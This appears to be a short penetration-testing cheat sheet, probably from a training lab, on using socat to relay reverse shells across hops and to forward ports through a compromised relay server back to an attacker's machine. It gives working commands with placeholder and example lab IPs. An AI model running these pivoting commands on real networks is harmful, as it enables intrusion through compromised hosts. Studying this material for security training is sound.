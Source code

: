 # Socat

[https://github.com/3ndG4me/socat/releases/tag/v1.7.3.3](https://github.com/3ndG4me/socat/releases/tag/v1.7.3.3)

[linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)

## Reverse shell relay

This way we can relay reverse shells for multiple hops

```
./socat tcp-l:LPORT tcp:RHOST:RPORT &
```

## Port forwarding (fast n' ugly)

```
./socat tcp-l:LPORT,fork,reuseaddr tcp:RHOST:RPORT &
```

## Port forward (advanced)

First of all, on our own attacking machine, we issue the following command:
```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:
```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```


